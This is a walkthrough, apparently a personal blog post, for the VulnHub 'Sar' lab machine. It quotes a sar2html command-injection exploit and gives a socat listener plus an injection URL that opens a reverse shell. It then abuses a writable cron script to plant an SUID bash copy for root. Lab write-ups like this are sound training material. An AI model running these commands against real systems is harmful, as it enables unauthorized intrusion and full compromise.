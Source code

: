 ```yaml
---
layout: post
title: Writeup for Sar machine form vulnhub
categories: [writeup]
tags: [vulnhub, Vulnerable Component, RCE, cronjob]
---
```


**Machine** | [sar](https://www.vulnhub.com/entry/sar-1,425/)
**Vulnerability** | Remote Command Execution
**Privilege Escalation** | Cronjob abuse

## nmap scan

![](/assets/sar/nmap.png)

```
$ nmap -A 192.168.1.104
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-06 11:43 EDT
Nmap scan report for 192.168.1.104
Host is up (0.00065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds
```

## Initial foothold

`robots.txt` contains one value: `sar2HTML`

![](/assets/sar/robots.png)

Browsed to `http://192.168.1.104/sar2HTML` and got the home page

![](/assets/sar/sar2HTML.png)

Looked for an exploit online and found this one at [exploitdb](https://www.exploit-db.com/exploits/47204)

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

Tested the exploit:

![](/assets/sar/exploit-test.PNG)

Used socat reverse shell found at [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#socat)

Sat up a listener

```
socat file:`tty`,raw,echo=0 TCP-L:444
```

Browsed to `http://192.168.1.104/sar2HTML/index.php?plot=;socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:192.168.1.100:4444
` and got a reverse shell as `www-data`.


## Privilege Escalation

Examined the content of `/etc/crontab` and found a job running every 5 minutes to execute `/var/www/html/finally.sh`.

![](/assets/sar/crontab.png)

Examined `finally.sh` and found that it executes `write.sh` which we can modify.

![](/assets/sar/write-is-writable.png)

Backed up `write.sh` as `write.sh.orig`

Modified `write.sh` with the following:

```
#!/bin/sh

cp /bin/bash /bin/mybash
chmod u+s /bin/mybash
```

![](/assets/sar/write-modify.png)

Waited for 5 minutes, and `mybash` was created with the SUID bit set.

![](/assets/sar/mybash-suid.png)

Ran `mybash -p` and got a root shell

![](/assets/sar/root-shell.png)

